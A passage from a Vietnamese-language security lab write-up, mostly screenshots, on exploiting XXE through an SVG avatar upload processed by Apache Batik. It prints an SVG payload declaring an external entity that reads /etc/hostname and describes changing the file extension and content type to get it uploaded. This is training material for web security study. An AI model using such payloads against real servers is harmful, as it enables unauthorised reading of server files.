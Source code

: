  [image](https://hackmd.io/_uploads/B1e73Dlhp.png)

mucjc đích của chúng ta đã hoàn thành và mình đã solve được lab này

 [image](https://hackmd.io/_uploads/S1CBCvxna.png)

## 7. Lab: Exploiting XXE via image file upload

link: https://viblo.asia/p/xxe-injection-vulnerabilities-lo-hong-xml-phan-6-oK9VyQd0VQR

### Đề bài

 [image](https://hackmd.io/_uploads/BJ7eFOghp.png)

### Phân tich

- Lab trên cho phép người dùng comment và dùng thư viện Apache Batik để xử lý ảnh avatar. Để solve lab thì ta sẽ upload ảnh mà chứa nội dung của /etc/hostname sau khi xử lý. Với hint là ảnh SVG sử dụng XML

mình vào payloadallthing tìm và được payload

 [image](https://hackmd.io/_uploads/Byj8qdenp.png)

### Khai thác

- mình tạo payload với nội dung

```xml 
<?xml version="1.0" standalone="yes"?>
< DOCTYPE test [ < ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

- Trong đó định nghĩa một entity xxe chứa nội dung tệp /etc/hostname và hiển thị nội dung ra ảnh với kích thước theo ý.
- mình sửa đuôi file ảnh thành `.svg` và content-type thành: `image/svg+xml`

 [image](https://hackmd.io/_uploads/ryyWndehT.png)

- ảnh được up thành công

 [image](https://hackmd.io/_uploads/r1ebyKxn6.png)

Truy cập ảnh vừa upload chúng ta thu được nội dung tệp /etc/hostname, submit và hoàn thành bài lab:

 [image](https://hackmd.io/_uploads/BkD2nul3T.png)

 [image](https://hackmd.io/_uploads/B14STuenp.png)

 [image](https://hackmd.io/_uploads/H1EDA_lnp.png)

 [image](https://hackmd.io/_uploads/SylsRul2a.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được bài lab này

